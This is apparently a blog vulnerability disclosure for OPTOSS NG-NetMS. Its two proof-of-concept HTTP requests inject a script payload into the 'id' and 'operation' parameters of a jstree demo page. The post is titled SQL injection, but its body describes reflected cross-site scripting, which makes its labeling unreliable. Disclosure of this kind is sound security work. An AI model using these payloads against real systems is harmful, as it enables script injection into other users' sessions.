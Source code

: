 
---
layout: post
title:  "SQL Injection in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---

Vendor: OPT/NET BV

Product: OPTOSS Next Gen Network Management System (NG-NetMS)

Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-xxxx
* CWE ID: CWE-79

#### #Proof of Concept

Multiple reflected cross-site scripting (XSS) vulnerabilities were discovered in the product.

A cross-site scripting vulnerability was identified on the /js/libs/jstree/demo/filebrowser/index.php page. The “id” and “operation” GET parameters can be used to inject arbitrary JavaScript which is returned in the page's response.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### Request:
{% highlight ruby %}
POC 1:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23'<script >prompt('xss')</script>&operation=get_node HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

POC 2:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23&operation=get_node'<script >prompt('xss')</script> HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
